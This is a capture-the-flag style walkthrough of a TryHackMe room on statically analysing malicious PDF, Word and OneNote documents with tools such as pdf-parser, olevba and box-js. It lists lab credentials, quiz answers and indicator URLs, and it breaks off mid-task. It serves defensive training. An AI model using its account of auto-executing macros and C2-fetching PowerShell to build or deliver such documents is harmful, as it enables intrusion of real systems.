










# MalDoc: Static Analysis

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Medium
Tags: Linux
Subscription type: Premium
Description:
Perform detailed Static Analysis on malicious documents.
```

Room link: [https://tryhackme.com/room/maldoc](https://tryhackme.com/room/maldoc)

## Solution

### Task 1 - Introduction

In today's digital age, documents are among the most common ways to share information. They are used for various purposes, including reports, proposals, and contracts. Because of their prevalence, documents are also a common vector for cyber attacks. Malicious actors can use documents to deliver malware, steal sensitive information, or carry out phishing attacks.

Analyzing malicious documents is, therefore, an essential part of any cyber security strategy. Analysts can identify potential threats by analyzing the structure and content of a document and taking steps to mitigate them. This is particularly important today when more businesses rely on digital documents to share and store sensitive information.

#### Expected Outcome

The expected outcome of this room is to determine if a document is indeed malicious and then look for the following indicators:

- Presence of Malicious URLs
- References to File Names / API functions
- IP addresses
- Domains
- Malicious Script like Powershell, JavaScript, VBScript Macros, etc

In this room, we will understand the different variants of malicious documents, their structure, and how they are used in different phishing attacks. Then we will explore the tools and concepts required to analyze a malicious document.

#### Learning Objectives

In this room, the following learning objectives will be covered:

- Different document types like onenote, dotm, docx, xls, etc.
- Analyze complex JavaScript.
- Importance of Malicious Document Analysis.
- PDF structure and key components like objects, keywords, and filtering.

---------------------------------------------------------------------------------------

### Task 2 - Connecting with the Lab

#### Room Machine

Before moving forward, start the lab by clicking the **Start Machine** button. The lab will be accessible via split screen. If the VM is not visible, use the blue **Show Split View** button at the top-right of the page. Once the VM is in split screen view, you can click the + button to show it on a full screen. The VM will take 3-5 minutes to load properly.

#### Credentials

- Username: `remnux`
- Password: `malware`
- IP: `10.66.160.43`

**Note**: Connect with **VNC** using Remmina and an IP-adress of `10.66.160.43:1`!



---------------------------------------------------------------------------------------

### Task 3 - Initial Access - Spearphishing Attachment

Malicious documents are one of the primary ways the attackers use to get initial access to a system or break into the network. Many APT groups have found utilizing spearphishing attachments as their Initial access technique.

#### Spearphishing Attachment

Spearphishing attachments are very common cyber attacks targeting specific individuals or organizations through carefully crafted and personalized phishing emails. The attacker aims to trick the recipient into opening a malicious attachment, typically containing malware, ransomware, or other harmful software. By doing so, the attacker gains unauthorized access to the target's system, allowing them to steal sensitive information, compromise systems, or achieve other nefarious goals.


Advanced Persistent Threats (APT) are highly organized cybercrime groups or state-sponsored entities known to use spearphishing attacks to infiltrate their targets' systems. APT groups employ spearphishing with attachments as an effective way to bypass security measures and gain a foothold in the target environment. Here are a few examples of APT groups that have used spearphishing attachments in their attacks:

- **APT28 (Fancy Bear)**: This Russian state-sponsored group has been responsible for various high-profile cyberattacks, such as the 2016 Democratic National Committee (DNC) hack. APT28 used spearphishing emails with malicious attachments disguised as legitimate files to trick recipients into opening them. Once opened, the malware installed on the victims' computers allowed the attackers to exfiltrate sensitive information.

- **APT34 (OilRig)**: APT34 is an Iranian cyber espionage group that has targeted various industries, primarily focusing on the Middle East. One of their tactics includes spearphishing emails with malicious Microsoft Excel attachments. When victims open the attachment, a macro initiates the download and installation of malware, which then establishes a connection with the attackers' command and control servers.

- **APT29 (Cozy Bear)**: Another Russian state-sponsored group, APT29, has targeted governments and organizations worldwide. In a high-profile attack against the Norwegian Parliament in 2020, APT29 sent spearphishing emails with malicious attachments to parliament members. The attack resulted in unauthorized access to sensitive data.

- **APT10 (MenuPass Group)**: A Chinese cyber espionage group, APT10 has targeted organizations in various sectors, including government, aerospace, and healthcare. They have used spearphishing emails with malicious attachments that appear to be legitimate documents, such as job offers or invoices. When the attachment is opened, the malware contained within it compromises the target's system, allowing APT10 to exfiltrate sensitive data.

#### Malware families associated with Malicious documents

Some of the malware families that are spreading through malicious documents are:

**Emotet**:

- **Technical details**: Emotet is a banking trojan that is often distributed through malicious email attachments, typically in the form of Microsoft Word documents. Once installed, Emotet can steal sensitive information, such as banking credentials and email addresses, and it can also be used to download additional malware.
- **MITRE reference**: The MITRE ATT&CK framework includes a reference for Emotet, which can be found at [https://attack.mitre.org/software/S0367/](https://attack.mitre.org/software/S0367/).

**Trickbot**:

- **Technical details**: Trickbot is a banking trojan that is often distributed through malicious email attachments and is known for its modular design, which allows attackers to add new functionality to the malware as needed. Trickbot has been used to deliver ransomware, exfiltrate data, and perform other types of malicious activity.
- **MITRE reference**: The MITRE ATT&CK framework includes a reference for Trickbot, which can be found at [https://attack.mitre.org/software/S0266/](https://attack.mitre.org/software/S0266/).

**QakBot**:

- **Technical details**: QakBot is a banking trojan that is often distributed through malicious email attachments and is known for its ability to steal banking credentials and other sensitive information. QakBot is also capable of downloading and executing additional malware and can be used to create backdoors on infected systems.
- **MITRE reference**: The MITRE ATT&CK framework includes a reference for QBot, which can be found at [https://attack.mitre.org/software/S0650/](https://attack.mitre.org/software/S0650/).

**Dridex**:

- **Technical details**: Dridex is a banking trojan that is often distributed through malicious email attachments and is known for its ability to steal banking credentials and other sensitive information. Dridex has been active since 2014 and has been one of the most prevalent banking trojans in recent years.
- **MITRE reference**: The MITRE ATT&CK framework includes a reference for Dridex, which can be found at [https://attack.mitre.org/software/S0384/](https://attack.mitre.org/software/S0384/).

**Locky**:

- **Technical details**: Locky is a ransomware family that is often spread through malicious email attachments, typically in the form of Microsoft Word documents. Once installed, Locky encrypts the victim's files and demands a ransom payment in exchange for the decryption key.

**Zeus**:

- **Technical details**: Zeus is a banking trojan that has been active since 2007 and is often distributed through malicious email attachments. Zeus is known for its ability to steal banking credentials and other sensitive information and has been used in numerous high-profile attacks over the years.

**Petya**:

- **Technical details**: Petya is a ransomware family that is often spread through malicious email attachments and has been active since 2016. Petya is known for its ability to encrypt the victim's entire hard drive, making it much more difficult to recover from than other types of ransomware.

---------------------------------------------------------------------------------------

#### From which family does the Locky malware belong to?

Answer: `Ransomware`

#### What is the Sub-technique ID assigned to Spearphishing Attachment?

See [https://attack.mitre.org/techniques/T1566/001/](https://attack.mitre.org/techniques/T1566/001/)

Answer: `T1566.001`

### Task 4 - Documents and Their Malicious Use

Attackers can abuse different types of digital documents to deliver malware or execute code on a user's system. It is important to be cautious when opening documents from unknown sources and to keep your software and security measures up to date to reduce the risk of falling victim to these types of attacks. Some of the documents are explained below, along with their malicious usage:

#### PDF

Portable Document Format (PDF) is a widely used document format that can be opened on different devices and operating systems. However, attackers can also use PDFs to deliver malware or launch attacks on a user's system. For example, attackers can embed malicious code or links in a PDF file that, when opened, can exploit vulnerabilities in a user's system. PDFs can also be used for phishing attacks by including links that redirect users to fake websites where they are prompted to enter personal information.

#### DOCX

Microsoft Word documents can be used to deliver malware by using macros, which are a series of commands that automate tasks within the document. Attackers can embed malicious macros in Word documents that, when enabled, can execute code on a user's system. For example, attackers can create a Word document that prompts users to enable macros to view the contents of the document, which then executes malicious code that can steal personal information or install malware.

#### XLSX

Excel spreadsheets can also be used to deliver malware by using macros. Similar to Word documents, attackers can embed malicious macros in Excel spreadsheets that, when enabled, can execute code on a user's system. For example, attackers can create a spreadsheet that prompts users to enable macros to view the contents of the spreadsheet, which then executes malicious code that can steal personal information or install malware.

#### PPTX

PowerPoint presentations can be used to deliver malware or phishing attacks. Attackers can embed malicious code or links in a presentation that, when opened, can exploit vulnerabilities in a user's system or redirect users to fake websites where they are prompted to enter personal information.

#### XML

Extensible Markup Language (XML) is a markup language used to store and transport data. Attackers can use XML documents to exploit vulnerabilities in a user's system. For example, attackers can inject malicious code into an application by uploading an XML file that contains code designed to exploit vulnerabilities in the application software.

#### OneNote

OneNote is a digital note-taking application that allows users to organize and share their notes across devices. While OneNote itself is not typically used to deliver malicious content, attackers can abuse OneNote to deliver phishing attacks. Attackers can also use OneNote to store and share malware. For example, attackers can create a OneNote notebook that appears to contain legitimate information but includes a link to a malware download. When the user clicks on the link, the malware is downloaded and executed on their system.

So far, we have learned about some very common document types and how attackers can abuse them for malicious intent. In the following tasks, we will explore them in detail.

---------------------------------------------------------------------------------------

### Task 5 - PDF Documents - Structure

#### PE Header

Before we start analyzing PDF documents for being malicious or not, it's better first to understand the structure of a PDF and what are the components that can be found within one.


#### Pdf Documents

A PDF (Portable Document Format) file consists of a series of objects that are organized into a specific structure. Understanding the structure of a PDF file is important for analyzing and working with PDF documents. The following is a brief overview of the structure of a PDF file:

- **PDF Header**: The header is the first line in a PDF file containing a file signature and version number. The file signature is a sequence of characters that identifies the file as a PDF. The version number indicates the version of the PDF specification used to create the document.

```text
%PDF-1.7
```

- **PDF Body**: The body of a PDF file contains a series of objects that are organized in a specific structure. Each object is identified by an object number and generation number, which are used to uniquely identify the object within the document.

```text
1 0 obj
<< /Type /Catalog
   /Pages 2 0 R
>>
endobj
2 0 obj
<< /Type /Pages
   /Kids [3 0 R 4 0 R]
   /Count 2
>>
endobj
3 0 obj
<< /Type /Page
   /Parent 2 0 R
   /MediaBox [0 0 612 792]
   /Contents 5 0 R
>>
endobj
4 0 obj
<< /Type /Page
   /Parent 2 0 R
   /MediaBox [0 0 612 792]
   /Contents 6 0 R
>>
endobj
```

- **PDF Cross-reference Table**: The cross-reference table is a table that provides a map of the locations of all the objects in the PDF file. It is used to quickly locate objects within the file.

```text
xref
0 14
0000000000 65535 f
0000000015 00000 n
0000000263 00000 n
0000000009 00000 n
0000000057 00000 n
0000000297 00000 n
0000000202 00000 n
0000000399 00000 n
0000000426 00000 n
0000000501 00000 n
0000000528 00000 n
0000000604 00000 n
0000000631 00000 n
0000000707 00000 n
```

- **PDF Trailer**: The trailer is the last section in a PDF file and provides information about the document, such as the location of the cross-reference table, the size of the file, and any encryption or security settings.

```text
trailer
<>
startxref
788
%%EOF  
```

Now that we have explored different sections of the PDF, let’s explore some important keywords that have specific usage within a PDF.

|PDF Keyword|Actions|
|----|----|
|/JavaScript<br>/JS|This keyword points to the JavaScript that will run when the document is opened.|
|/Names|File names that will most likely be referred to by the PDF itself.|
|/OpenAction<br>/AA (Additional Action)|This element's function is to carry out an action, such as running a script.|
|/EmbeddedFile|Shows other files embedded within the PDF file, such as scripts.|
|/URI<br>/SubmitForm|Links to other URLs on the internet.|
|/Launch|This keyword is used to run embedded scripts within the PDF file itself or run new additional files that have been downloaded by the PDF.|

#### Analyzing a simple.pdf Document

Open the terminal and go to the Desktop. Now, open the `simple.pdf` document in a notepad using the following command `notepad simple.pdf`.

It will open the PDF document in text format, and we will be able to recognize the PDF structure and its components present in the document.


In the next task, we will dive more into analyzing this document.

---------------------------------------------------------------------------------------

#### Who is the author of the simple.pdf document?

Answer: `Ben`

### Task 6 - Analyzing a PDF Document

Let's examine the simple.pdf document and get introduced to the toolset that is used to get useful information out of the PDF document.

Open the terminal and go to the Desktop. Now, Open the `simple.pdf` document in a notepad using the following command `notepad simple.pdf`. It will open the PDF document in text format, and we will be able to recognize the PDF structure and its components present in the document.


If we examine the document thoroughly, we can get the following details:

- PDF version
- Author Name
- Objects
- Keywords like JavaScript, Encode, Action
- Trailer

Almost similar kind of information is obtained using the strings command to extract the strings from the document.

#### Tool: pdfid.py

**Pdfid.py** is used to summarise the objects/keywords found within the document. Let's try this command `pdfid.py simple.pdf`


1. **Objects**: This document contains 18 objects.
2. **Stream**: This document contains 3 streams that we need to examine.
3. **JS / JavaScript**: This document contains 1 JavaScript and 1 JS instance.
4. **/OpenAction**: This indicates that an action will be performed when the document is opened.. It could be running a JavaScript, downloading a payload, etc. Therefore, this object is worth examining.

#### Tool: pdf-parser.py

**Pdf-parser.py** is a very handy tool that is used to parse the PDF, search objects, filter, etc.

First, look at the help menu using this command `pdf-parser.py --help`.


Let's use the command `pdf-parser.py simple.pdf`


This tool returns all the objects it finds within the PDF document. Let's use the search option to return only the objects that contain the OpenAction keyword using this command `pdf-parser.py --search OpenAction simple.pdf`.


The output shows object 1, which contains the keyword `OpenAction`, which is then referring to object 6. We can use the `--object` option to retrieve object 6. Let's use this command `pdf-parser.py --object 6 simple.pdf`.


The above output shows object 6, which contains the JavaScript code. The last two results conclude that when this PDF document is opened, OpenAction will be triggered, resulting in the execution of the JavaScript code present in object 6.

We can also search for objects containing JavaScript keywords using this command `pdf-parser.py --search Javascript simple.pdf`


This returns the only object that points to the JavaScript code.

#### Tool: peepdf

**Peepdf** is another tool for PDF analysis used to determine if there is any malicious element in the document. It also has an interactive option to interact with these objects. Let's first use this command peepdf simple.pdf to retrieve important information about the PDF document.


The output shows some key information about the PDF, like:

- The hashes.
- The number of objects/streams/URLS found in the document.
- References to the objects.
- List of suspicious elements like JavaScript/OpenAction, etc.

Let's now use the interactive interface using this command `peepdf -i simple.pdf`. This will give us an interactive interface. Enter the help command, and we will get the output like this:


Some of the key help options are highlighted. Let's use the `object` option to dump object 6:


This not only showed object 6 but also decoded it to show the actual JavaScript code.

Let's use the `extract js` option to view the JavaScript code. The `extract uri` option can also be used to extract URLs within the document.


Excellent, we were able to look at the PDF and extract the IOC from it. In the next task, we will look at a more complex JavaScript and see how to extract IOCs from the embedded JavaScript.

---------------------------------------------------------------------------------------

#### What is the flag found inside the JavaScript code?



Answer: `THM{<REDACTED>}`

#### How many OpenAction objects were found within the document?


Answer: `1`

#### How many Encoded objects were found in the document?



Answer: `2`

#### What are the numbers of encoded objects? (Separate with a comma)

See output above.

Answer: `15,18`

### Task 7 - Analyzing Malicious JavaScript

Let's go through a scenario!!

After analyzing the malicious PDF document, a Junior SOC Analyst has extracted the embedded JavaScript and handed it over to you to have a detailed look at the code and see if you can find anything suspicious.

Your task as a SOC L2 analyst would be to examine the JavaScript code, deobfuscate if possible, and extract IOCs that could help in creating detection rules.

#### Skimming through JS code

Go to the `/home/remnux/Javascript-code` directory and o pen the code in a text editor using the following command `notepad embedded-code.js`


The code has the following characteristics:

- It's very complex and time-consuming to analyze.
- It contains randomly generated variable names which do not make any sense.
- It contains obfuscated code that needs to be deobfuscated.

#### Box-Js to the Rescue

Box-js is a tool that performs the analysis and execution of JavaScript code in a controlled environment. It was primarily designed to analyze malicious JavaScript files and understand their behavior without risking the host system's security. The tool creates a sandboxed environment where JavaScript code can be executed and monitored.

To use `box-js`, run the command `box-js embedded-code.js`; it will show the analysis as shown below:


This tool runs the JavaScript in the controlled environment and returns the IOCs it finds during execution, as shown above.

It also creates a subfolder that contains useful files, as shown below:


Go to the folder and explore the contents of the files.

In summary, `box-js` is one of the very useful tools that investigators use to examine complex JavaScript codes quickly.

---------------------------------------------------------------------------------------

#### What is the name of the dumped file that contains information about the URLs?



Answer: `urls.json`

#### How many URLs were extracted from JavaScript?



Answer: `9`

#### What is the full URL which contains the keyword slideshow? (defang the URL)

See output above.

Answer: `hxxp://aristonbentre[.]com/slideshow/01uPzXd2YscA/`

### Task 8 - Office Docs Analysis

Word Documents are files created using Microsoft Word, a popular word-processing software application. These files typically have a .doc or .docx file extension and can contain text, images, tables, charts, and other types of content. There are two Word document formats.


#### Structured Storage Format

This type of Word document is a binary format used by Microsoft Word versions 97-2003. These files have extensions such as .doc, .ppt, .xml, etc.

#### Office Open XML Format (OOXML)

This document type is an XML-formated document used by Microsoft Word versions 2007 and later. This file format is actually a zipped file containing all related data within the document. We can unzip these documents to see their content by just replacing the extension with .zip before unzipping. These files have extensions such as .docx, .docm, etc.

#### What makes a Document Malicious

As we learned, a document can embed various elements, which can be used for malicious intent. Some of those elements are explained below:

- **Macros**: Macros are small VBA scripts that can be embedded in Word documents. They can be used to automate tasks, but they can also be used to execute malicious code. Malicious macros can be used to download and install malware on a user's system, steal sensitive information, or perform other malicious actions.

- **Embedded objects**: Word documents can contain embedded objects such as images, audio or video files, or other types of files. Malicious Word documents can contain embedded objects that are designed to exploit vulnerabilities in the software used to open the file.

- **Links**: Malicious Word documents can contain links to websites that host malware or phishing pages designed to steal user credentials.

- **Exploits**: Word documents can contain code that exploits vulnerabilities in the software used to open the file. These exploits can be used to download and install malware on a user's system or to gain unauthorized access to sensitive data.

- **Hidden Content**: Malicious Word documents can contain hidden content that is not visible to the user but can be used to execute malicious code.

#### Analyzing a Malicious Document

Let's take a suspicious-looking sample and examine it using tools in place to understand how to analyze and identify IOCs within a Word document. The sample `suspicious.doc` is placed at `/home/remnux/worddoc`.

#### File Type Identification

We will use a file identification tool `trid` to confirm the file type. The output confirms that the file is indeed a Word document.


#### Tool: oleid

**Oleid** is used to extract basic information about the document to get a better understanding of its structure, as shown below:


The output shows the following information:

- This document name is suspicious.doc
- It is not encrypted
- It does contain VBA macros
- It's a Word Document

#### Tool: olemeta

**Olemeta** is also used to extract the property information about the streams, as shown below:


Some key information we got from the output is:

- When the document was created / last saved.
- The author's Name.

#### Tool: oletime

**Oletime** shows the creation/modification time of different stream objects present in the document as shown below:


#### Tool: olemap

**Olemap** displays the details about different sectors of the file, as shown below:


#### Tool: olevba

This is an important tool that is widely used for analysis. Olevba extracts all the VBA objects it finds within the file and also shares the summary of the suspicious elements it finds, as shown below:


The above output shows the macros found within the document. The summary of the suspicious elements is shown below:


The above summary shows that

- The document contains the code that will auto-execute when the user opens the document.
- It contains suspicious Base64 encoded strings.
- It also contains PowerShell code.

#### Tool: Oledump.py

**Oledump** can be used to check if there are any macros embedded in the document streams. The letter `M`/`m` will be mentioned against the object stream, indicating that this stream is a macro, which needs to be checked.


This shows that objects 7 and 8 contain the macros which we need to investigate further. We can also use the `--metadata` or `-M` flag to display the information about the document, most of which we already have obtained from the tools used above.


Let's select object 7 using the `-s` flag and see what macro is embedded in the document.


If we examine this VBA code, it shows that it contains a PowerShell Script with base64 encoded string, which will execute when the document opens. Let's use another tool to examine this document

#### Tool: ViperMonkey

**ViperMonkey** is a tool used for analyzing and emulating the behavior of malicious macros in Microsoft Office documents. Let's run this command against the document and see what it shows:


ViperMonkey runs and emulates the embedded macro in an isolated environment, trying to extract IOCs and useful information.


Like the output above, the URL it has extracted is indeed a false positive. It has also extracted a PowerShell script that will be executed when a user opens the file.

We can use tools like CyberChef (placed on the Desktop) to deobfuscate the base64 encoded value, as shown below:


The base64 decoded result clearly shows the PowerShell code. It's now evident that this document would try to connect to the C2 server on port 4444 to access the malware called stage2.exe. We can use another CyberChef recipe Extract URLs to extract the URL from the output, as shown below:


This is it.

We have found the IOC, which is a C2 server. From a SOC Analyst's perspective, we will move on to creating a detection rule on outbound traffic to detect if any host has communicated to this C2 server in the past or if there is any connection in the future. If there is any communication observed, it means that the host has been compromised and needs immediate remedy.

---------------------------------------------------------------------------------------

#### What is the author name of the document found during the analysis?



Answer: `CMNatic`

#### How many macros are embedded in the document?



Answer: `2`

#### What is the URL extracted from the suspicious.doc file?

Dump stream 7 to file



and keep only the base64-encoded data



Answer: `http://thmredteam.thm/stage2.exe`

### Task 9 - OneNote

OneNote is a popular note-taking and collaboration tool developed by Microsoft. It allows users to create and organize digital notebooks containing various types of content, such as text, images, audio recordings, and file attachments. OneNote files are saved with a .one or .onenote extension.


To understand how different APT groups have started utilizing OneNote documents in their recent campaigns, let's look at `MalwareBazaar` - the online Malware database for researchers. We can search for OneNote malware by using the search `file_type:one` to display all OneNote documents.


We will be using one of the documents from the above list to practice analyzing and see if we can extract some obfuscated code or any IOC.

In the attached VM, go to the path `/home/remnux/OneNoteDocs`, where the `invoice.one` is placed. Let's understand if there is any embedded code/IOC is present.

#### File Identification

We will use the `trid` utility, which is used for file identification. This confirms the file we are investigating is indeed a OneNote document.


#### Extracting Strings

We can use `strings` commands to see if there is anything interesting in the file like IP addresses, scripts, domain references, etc.


It looks like we are getting some references to some suspicious domains and some embedded code. Let's use another utility, onedump.py, to get the objects found in the document.

#### Onedump Utility

**Onedump** is a stable tool used to extract and analyze OneNote documents. Let's first check the help options using this command `python3 onedump.py -h`


The above output shows some useful flags we can use with the tool. Let's now use this tool to analyze the `invoice.one` document without any flag using the command `python3 onedump.py invoice.one`


